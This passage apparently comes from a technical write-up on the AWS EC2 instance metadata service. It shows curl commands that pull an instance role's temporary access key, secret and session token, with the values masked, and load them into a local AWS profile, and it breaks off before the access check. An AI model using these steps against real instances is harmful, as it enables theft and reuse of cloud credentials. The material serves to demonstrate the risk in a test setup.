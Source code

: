 By utilizing the Access and Secret keys, we gain full permission to perform actions that are allowed for the instance. For instance, if the IAM role associated with the instance possesses AdminAccess permissions, we can inherit these extensive rights.

### 🔄 Verify and Attach a New Role

To verify this, let's proceed by attaching a new role that grants access to S3 buckets to the instance.

#### 📋 Check the Role in the Metadata

```bash
root@ip-172-31-30-97:/# curl http://169.254.169.254/latest/meta-data/iam/info
{
    "Code" : "Success",
    "LastUpdated" : "2023-12-12T13:34:51Z",
    "InstanceProfileArn" : "arn:aws:iam::********:instance-profile/IMDSTestS3ReadOnlyAccess",
    "InstanceProfileId" : "AIPAXPNJUS3H7XEB7UT24"
}
```

#### 🔐 Get the Keys and Token

```bash
root@ip-172-31-30-97:/# curl http://169.254.169.254/latest/meta-data/iam/security-credentials/IMDSTestS3ReadOnlyAccess
{
    "Code" : "Success",
    "LastUpdated" : "2023-12-12T13:35:16Z",
    "Type" : "AWS-HMAC",
    "AccessKeyId" : "*******PJ",
    "SecretAccessKey" : "*******2n",
    "Token" : "*******4a",
    "Expiration" : "2023-12-12T20:09:51Z"
}
```

Add them to our working machine in `~/.aws/credentials`:

```ini
[testimds]
aws_access_key_id = *******PJ
aws_secret_access_key = *******2n
aws_session_token = *******4a
```

And create a profile in the `~/.aws/config`:

```ini
[profile testimds]
region = eu-west-1
output = json
```

#### ✅ Check the Access Now
